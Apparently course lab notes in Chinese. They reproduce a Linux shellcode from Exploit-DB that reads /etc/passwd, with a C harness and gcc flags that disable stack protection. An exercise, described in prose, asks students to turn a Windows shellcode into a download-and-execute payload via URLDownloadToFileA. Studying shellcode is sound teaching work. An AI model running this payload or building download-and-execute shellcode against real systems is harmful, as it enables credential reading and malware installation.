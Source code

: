 ### [Linux x86/x64 - Read /etc/passwd Shellcode (156 bytes)](https://www.exploit-db.com/shellcodes/39338)
1. 将代码保存为read.c
```c
unsigned char shellcode[] =
"\x31\xc0\x40\x74\x3a\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64";

int main(void){
    (*(void(*)()) shellcode)();
}
```
2. 传到linux系统
```bash
gcc -fno-stack-protector -z execstack read.c -o read
./read
```
![](./img/neirong.png)                                       
### 下载文件
修改[示例代码](https://www.exploit-db.com/shellcodes/48116)的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数